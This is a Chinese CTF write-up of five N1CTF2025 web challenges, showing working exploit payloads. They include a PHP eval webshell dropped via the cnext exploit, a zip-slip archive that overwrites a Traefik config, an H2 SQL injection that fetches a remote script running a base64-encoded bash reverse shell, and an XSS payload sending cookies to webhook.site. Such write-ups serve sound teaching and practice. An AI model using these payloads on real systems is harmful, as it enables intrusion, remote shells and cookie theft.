










# N1CTF2025 WEB方向详细writeup（全）-先知社区

> **来源**: https://xz.aliyun.com/news/16832  
> **文章ID**: 16832

---

# Gavatar

下载附件，看到处理上传的两种方式

```
if (!empty($_FILES['avatar']['tmp_name'])) {
    $finfo = new finfo(FILEINFO_MIME_TYPE);
    if (!in_array($finfo->file($_FILES['avatar']['tmp_name']), ['image/jpeg', 'image/png', 'image/gif'])) {
        die('Invalid file type');
    }
    move_uploaded_file($_FILES['avatar']['tmp_name'], $avatarPath);
} elseif (!empty($_POST['url'])) {
    $image = @file_get_contents($_POST['url']);
    if ($image === false) die('Invalid URL');
    file_put_contents($avatarPath, $image);
}
```

看到这个url上传方式，就想到伪协议了

但是它不能利用伪协议特性执行命令，要打cnext，但是怎么让它看到回显呢？

我们发现每当上传图片，就会跳转到/avatar.php?user=id



我们就是改一下send方法就好了，其实这个脚本要打通，

主要就是看回显的地方，因为我们注册的是用户名123

然后

```
python3 exp.py http://39.106.16.204:25428 "echo '<?=@eval(\$_POST[0]);?>' > 1.php"
```

发包，访问1.php



完整的脚本放在附件里面了Gavatar\_exp.py

参考文章

<https://blog.kengwang.com.cn/archives/640/?replyTo=535>

原来的脚本

<https://github.com/ambionics/cnext-exploits/blob/main/cnext-exploit.py>

<https://www.cnblogs.com/ddd-flag/articles/18540587>

# traefik

下载附件

附件目录结构



题目利用traefik作为中间件



traefik.yml文件

```
providers:
  file:
    filename: /app/.config/dynamic.yml

entrypoints:
  web:
    address: ":80"
```

dynamic.yml文件

```
# Dynamic configuration

http:
  services:
    proxy:
      loadBalancer:
        servers:
          - url: "http://127.0.0.1:8080"
  routers:
    index:
      rule: Path(`/public/index`)
      entrypoints: [web]
      service: proxy
    upload:
      rule: Path(`/public/upload`)
      entrypoints: [web]
      service: proxy
    
```

看到main.go

```
package main

import (
    [……]
)

const uploadDir = "./uploads"

func unzipSimpleFile(file *zip.File, filePath string) error {
    [……]
}

func unzipFile(zipPath, destDir string) error {
    [……]
            err = unzipSimpleFile(file, filePath)
    [……]
}

func randFileName() string {
    [……]
}

func main() {
    [……]
    r.GET("/flag", func(c *gin.Context) {
        xForwardedFor := c.GetHeader("X-Forwarded-For")
        if !strings.Contains(xForwardedFor, "127.0.0.1") {
            c.JSON(400, gin.H{"error": "only localhost can get flag"})
            return
        }
        [……]
    })

    r.GET("/public/index", func(c *gin.Context) {
        c.HTML(http.StatusOK, "index.html", nil)
    })

    r.POST("/public/upload", func(c *gin.Context) {
        file, err := c.FormFile("file")
        if err != nil {
            c.JSON(400, gin.H{"error": "File upload failed"})
            return
        }
    [……]
}

```

可以看到main有三个路由，但是dynamic.yml里面却给了两个，导致访问不了flag

同时需要X-Forwarded-For: "127.0.0.1"携带这个请求头才能访问

意味着我们需要重写dynamic.yml

由于这题是文件上传，会帮我们解压zip压缩包

<https://zer0peach.github.io/2023/11/28/zipslip%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E4%B8%8E%E8%A6%86%E7%9B%96%E6%BC%8F%E6%B4%9E/>

写文件

dynamic.yml

```
http:
  middlewares:
    forwardedHeaders:
      headers:
        customRequestHeaders:
          X-Forwarded-For: "{127.0.0.1}"

  services:
    proxy:
      loadBalancer:
        servers:
          - url: "http://127.0.0.1:8080"

  routers:
    index:
      rule: Path(`/public/index`)
      entrypoints: [web]
      service: proxy
      middlewares:
        - forwardedHeaders

    upload:
      rule: Path(`/public/upload`)
      entrypoints: [web]
      service: proxy
      middlewares:
        - forwardedHeaders

    flag:
      rule: Path(`/flag`)
      entrypoints: [web]
      service: proxy
      middlewares:
        - forwardedHeaders
```

C:
emoveDisk\ideProject\PythonProject\CalcPin\dynamic.yml  
这个路径改成dynamic.yml所在位置

```
import zipfile

if __name__ == "__main__":
    try:
        zipFile = zipfile.ZipFile("poc.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("poc.zip")
        zipFile.write(r"C:\removeDisk\ideProject\PythonProject\CalcPin\dynamic.yml", "../../../app/.config/dynamic.yml", zipfile.ZIP_DEFLATED)
        zipFile.close()
    except IOError as e:
        raise e
```

然后上传poc.zip

然后访问/flag

# backup

\_REQUEST["\_\_2025.happy.new.year"];

看到网页底部有个提示，

post传

```
_[2025.happy.new.year=whoami
```

命令执行了

```
<?php

// 真的这么简单吗
// highlight_file(__FILE__);


$cmd = $_REQUEST["__2025.happy.new.year"];

system($cmd);

?>
```

实际上没有做任何过滤，发现根目录有个backup.sh

```
#!/bin/bash
cd /var/www/html/primary
while :
do
    cp -P * /var/www/html/backup/
    chmod 755 -R /var/www/html/backup/
    sleep 15s

done
```

同时发现primary是可以写文件的，先写个木马，蚁剑连上去方便后面好操作

然后我的提权灵感是来自这篇文章<https://mooncn.win/tutorial/451.html>



就是它通配符的话其实是可以匹配到任意文件的，如果我们起名字是一个命令中带有的参数即可

然后我们看这个cp命令，<https://www.cnblogs.com/kerrycode/p/4235034.html>



然后我试了半天，才发现靶机的是-H所以不能用-h


还问了GPT为什么能成功，原来按照顺序的。



拿到flag

# easyDB

审计jar包，有个sql注入



我们可以发现这个是 H2 数据库.

同时还waf掉几个关键词



因为他是用的是executeQuery方法，不能使用 `CREATE` 相关的指令, 也不能堆叠注入.

我们可以参考网上的 H2 打 JDBC 的操作, 使用 `LINK_SCHEMA` 来再次链接到 H2, 同时传入 `INIT` 的 SQL

由于黑名单过滤了关键词，怎么去绕过呢？这里用concat函数



```
admin' union select '1','2','3' from link_schema('TEST2', '', concat('jdbc:h2:mem:testdb1;TRACE_LEVEL_SYSTEM_OUT=3;IN','IT=RUNSC','RIPT FROM ''http://192.168.28.8:7897/1.sql'''), 'sa', 'sa', 'PUBLIC') --
```

在登录框发包

然后1.sql是

```
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "1";}';CALL EXEC ('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwL2lwLzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}')
```

然后就可以接受到shell了

# display

```
dompurify, 他这个会爬树来替换所有标签, 同时会对所有 < 进行转义.

于是我们尝试使用 HTML 实体字符来绕过吧 &#60; 代替前尖括号, &#62; 代替后尖括号
```

后半部分该绕 CSP 了

```
script-src 'self'; object-src 'none'; base-uri 'none';
```

我们可以看到 CSP 留了一个 script-src 为 self

审计代码可以发现:

```
app.use((req, res) => {
  res.status(200).type('text/plain').send(`${decodeURI(req.path)} : invalid path`);
}); // 404 页面
```

这个地方会拿我们的 `path` 并输出, 我们于是可以控制这个, 因为这个路径的开头为 `/`, 我们把他补全成 `//` 注释再换行也不是不行

接下来就该写插入 script 的 payload 了, 还是老一套了, `iframe + srcdoc` 加载

最后我们容易得到我们的 payload:

```
<h1>&#60;iframe srcdoc="&#60;html&#62;&#60;head&#62;&#60;script src='http://localhost:3000//%0Afetch(%27https://webhook.site/xxxxxxxxxxxxxxxxxxxxxxxx/%3F%27+btoa(document.cookie))%0A//'&#62;&#60;/script&#62;&#60;/head&#62;&#60;/html&#62;" &#62;</h1
```

当然, 传参的时候要注意编码, 这里贴一下最终的吧

```
POST /report HTTP/1.1
Host: xxxxxxxx
Content-Length: 359
Content-Type: application/json

{"text":"{{url(PGgxPiYjNjA7aWZyYW1lIHNyY2RvYz0iJiM2MDtodG1sJiM2MjsmIzYwO2hlYWQmIzYyOyYjNjA7c2NyaXB0IHNyYz0naHR0cDovL2xvY2FsaG9zdDozMDAwLy8lMEFmZXRjaCglMjdodHRwczovL3dlYmhvb2suc2l0ZS8vJTNGJTI3K2J0b2EoZG9jdW1lbnQuY29va2llKSklMEEvLycmIzYyOyYjNjA7L3NjcmlwdCYjNjI7JiM2MDsvaGVhZCYjNjI7JiM2MDsvaHRtbCYjNjI7IiAmIzYyOzwvaDE)}}+"}
```

# 总结

总体来说这次比赛还是让我学到很多的。
